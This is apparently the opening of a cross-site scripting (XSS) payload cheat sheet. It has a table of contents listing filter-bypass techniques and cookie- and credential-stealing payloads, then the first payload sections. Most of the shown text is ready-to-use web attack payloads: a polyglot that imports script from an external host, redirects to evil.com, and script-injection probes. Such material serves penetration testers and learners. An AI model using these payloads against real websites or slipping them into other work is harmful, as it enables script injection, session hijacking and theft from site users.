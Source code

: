 - [Testing XSS](#testing-xss)
- [Testing XSS in Various Scenarios](#testing-xss-in-various-scenarios)
- [HTML Injection](#html-injection)
- [Angle Brackets HTML-Encoded Bypass](#angle-brackets-html-encoded-bypass)
  - [Reflected XSS in HTML Attribute with Angle Brackets HTML-Encoded](#reflected-xss-in-html-attribute-with-angle-brackets-html-encoded)
  - [Reflected XSS in a JavaScript String with Angle Brackets HTML-Encoded](#reflected-xss-in-a-javascript-string-with-angle-brackets-html-encoded)
- [Reflected XSS Into a JavaScript String Where Single Quote Escaped With Backslash](#Reflected-XSS-into-a-JavaScript-string-where-Single-Quote-Escaped-With-Backslash)
- [Reflected XSS with Angle Brackets and Double Quotes HTML-Encoded and Single Quotes Escaped](#reflected-xss-with-angle-brackets-and-double-quotes-html-encoded-and-single-quotes-escaped)
- [Reflected XSS Into a Backticks Template Literal with Unicode Escaped](#Reflected-XSS-Into-a-Backticks-Template-Literal-with-Unicode-Escaped)
- [Tags and Attribute Block Bypass](#tags-and-attribute-block-bypass)
  - [Reflected XSS into HTML Context with Most Tags and Attributes Blocked](#reflected-xss-into-html-context-with-most-tags-and-attributes-blocked)
  - [Reflected XSS into HTML Context with Custom Tags](#reflected-xss-into-html-context-with-custom-tags)
- [Reflected XSS with Some SVG Markup Allowed](#reflected-xss-with-some-svg-markup-allowed)
- [Reflected XSS in Canonical Link Tag](#reflected-xss-in-canonical-link-tag)
- [Payloads for Stealing Cookies](#payloads-for-stealing-cookies)
- [Payloads for Stealing Credentials](#payloads-for-stealing-credentials)
- [XSS with Filter Evasion](#xss-with-filter-evasion)

## Testing XSS

**One Payload for Testing All Kinds of Scenarios**
```javascript
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
<!--</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76-->
```
```javascript
JavaScript​://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*
</Title/<​/Style/<​/Script/</textArea/</iFrame>
\74k<K/contentEditable/autoFocus/OnFocus​=
/*${/*/;{/**/(import(/https:\\x55.is/.source))}//\76
```

**Note**
1. Check HTML tags and attributes for reflection.
2. If `<` and `>` symbols are reflected in the source code without encoding, XSS is possible.
3. If `'` or `"` symbols are reflected in the source code without encoding, XSS is possible.

---

## Testing XSS in Various Scenarios
```javascript
<button onclick=alert("xss")>click</button>
```
```javascript
<meta http-equiv="refresh" content='0; url=https://evil.com/
```
```javascript
<script>document.location.href = "http://evil.com";</script>
```
```javascript
<script>alert(1337)</script>
```
```javascript
><script>alert(1337)</script>
```
```javascript
<sCrIpt>alert(1337)</sCripT>
```